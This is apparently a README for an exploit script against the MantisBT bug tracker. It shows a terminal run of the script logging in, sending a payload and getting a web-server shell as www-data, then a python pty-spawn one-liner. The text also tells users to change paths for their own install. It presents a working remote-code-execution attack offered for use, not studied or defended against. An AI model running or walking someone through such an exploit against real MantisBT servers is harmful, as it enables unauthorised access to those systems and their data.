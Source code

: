 # README

    root@ch3rn0byl:~/Desktop# python MantisBT.py 
    [+] Pew pew pewwwww!!!
    [+] Logging in...
    [+] Request: 200 OK
    [+] Sending payload...
    python -c 'import pty ; pty.spawn("/bin/bash")'
    www-data@ubuntu:/var/www/html/mantisbt$ 


This was on an install of Mantis. The paths may differ depending on how you set up soo change them!
It will present you an empty prompt, but you will be in shell :)
Just spawn a pty and you should be golden
